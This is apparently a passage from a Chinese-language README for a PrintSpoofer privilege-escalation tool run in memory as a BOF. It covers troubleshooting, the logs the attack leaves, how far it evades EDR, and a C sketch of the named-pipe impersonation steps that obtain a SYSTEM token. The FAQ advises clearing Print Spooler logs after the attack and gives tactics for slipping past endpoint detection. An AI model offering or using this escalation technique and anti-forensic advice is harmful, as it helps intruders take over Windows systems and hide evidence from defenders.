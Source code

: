 **原因**: Print Spooler 可能以非 SYSTEM 账户运行（罕见）

**解决方法**:
- 检查 Print Spooler 的运行账户: `shell sc qc spooler`
- 正常情况下应该是 `LocalSystem`

### Q4: 是否会留下日志？

**是的**，PrintSpoofer 会留下一些痕迹：

1. **Print Spooler Event Log**
   - 事件 ID: 372 (添加端口)
   - 事件 ID: 315 (端口操作)

2. **Named Pipe 创建**
   - Sysmon Event ID 17/18 (如果启用)

3. **进程创建**
   - 如果使用 `--run`，会有进程创建日志

**建议**: 
- 攻击完成后清理 Print Spooler 日志
- 使用 `--token` 模式以减少进程创建痕迹

### Q5: 能否绕过 EDR？

**部分绕过**:

1. ✅ **BOF 形式**: 内存执行，无磁盘落地
2. ✅ **Native API**: 使用 Windows 原生 API
3. ⚠️ **行为监控**: 可能被 EDR 的行为分析检测（Named Pipe + Impersonate）
4. ❌ **日志监控**: 无法避免 Print Spooler 日志

**对抗策略**:
- 快速提权，立即执行任务
- 提权后清理日志
- 结合其他混淆技术

## 技术细节

### Named Pipe Impersonation

```c
// 1. 创建 Named Pipe
HANDLE hPipe = CreateNamedPipeA(
    "\\\\.\\pipe\\printspoof12345678",
    PIPE_ACCESS_DUPLEX,
    PIPE_TYPE_BYTE | PIPE_WAIT,
    10, 2048, 2048, 0, NULL
);

// 2. 触发 Print Spooler 连接
OpenPrinterW(L",XcvMonitor Local Port", &hPrinter, &pd);
XcvDataW(hPrinter, L"AddPort", ...);

// 3. 等待连接
ConnectNamedPipe(hPipe, &overlapped);

// 4. Impersonate
ImpersonateNamedPipeClient(hPipe);

// 5. 获取 token
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
```
